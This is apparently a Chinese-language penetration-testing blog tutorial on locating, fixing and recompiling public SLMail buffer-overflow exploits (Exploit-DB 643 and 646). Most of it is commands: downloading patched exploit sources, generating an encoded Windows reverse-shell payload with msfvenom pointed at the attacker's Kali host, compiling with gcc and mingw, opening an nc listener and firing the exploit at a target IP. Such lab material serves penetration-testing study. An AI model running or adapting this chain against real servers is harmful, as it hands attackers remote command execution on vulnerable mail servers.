```yaml
---
title: 查找与修改exp
categories:
- tools
tags:
- tools
---
```



## 本地查找exp
```
searchsploit slmail

locate /643.c
```
## 互联网上查找exp
可靠的经过验证的公开exp来源：
- [https://www.exploit-db.com/](https://www.exploit-db.com/)
- [https://www.securityfocus.com/](https://www.securityfocus.com/)

## exp debug
由于软件版本等问题，exp可能会执行不成功。

要搭建对应的操作系统版本和有漏洞的软件，作为目标环境，来测试exp。测试exp能够成功执行以后，再在目标上运行。

通常，公开exp的shellcode并不能直接使用。shellcode可能会弹出计算器、绑定无效的IP反弹shell。

如果漏洞对buffer size不敏感，那么就可以将shellcode直接替换为我们的。如果漏洞对于缓冲区大小很敏感，那么简单的替换shellcode，可能会导致漏洞利用失败。

在更复杂的情况下，比如说exp要绕过DEP和ASLR溢出保护，那么替换shellcode的方式更起不到效果。

## exp修改案例
mingw是一个跨平台编译器，可以将这个代码编译为windows PE 可执行格式，使用wine在kali上运行。
```
apt-get install mingw-w64

dpkg --add-architecture i386 && apt-get update 
apt-get install wine:i386

```
- 目标ip: 192.168.1.101
- kali ip: 192.168.1.100

### 编译643.c
```
searchsploit slmail
locate /643.c
cp /usr/share/exploitdb/exploits/windows/remote/643.c .
该c代码有错误，无法正确编译
---
wget https://raw.githubusercontent.com/sevro/security-utilities/master/c/slmail_linux/643-fixed.c

---
将c代码中的shellcode替换一下，生成适合我们目标ip的shellcode：
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

---
目标ip替换一下：
    xs = conn("192.168.1.101");
---
编译：

gcc 643-fixed.c -o exp
chmod +x exp

nc -lnvp 443
./exp
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-07-09/10.PNG)

### 编译646.c
[https://raw.githubusercontent.com/sevro/security-utilities/master/c/slmail_windows/646-fixed.c](https://raw.githubusercontent.com/sevro/security-utilities/master/c/slmail_windows/646-fixed.c)
```
wget https://raw.githubusercontent.com/sevro/security-utilities/master/c/slmail_windows/646-fixed.c
---
修改exp的shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
---
编译
i686-w64-mingw32-gcc 646-fixed.c -lws2_32 -o 646.exe

#i686-w64-mingw32-gcc是编译win32位exe的编译器
#x86_64-w64-mingw32-gcc是编译win64位exe的编译器
#经过测试，kali是64位的，只有x86_64-w64-mingw32-gcc编译的64位exe，能够成功获得windows shell.

i686-w64-mingw32-gcc 646-fixed.c -lws2_32 -o 646.exe

x86_64-w64-mingw32-gcc 646-fixed.c -lws2_32 -o 646.exe
---
运行
wine 646.exe 192.168.1.101
```
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-07-09/11.PNG)

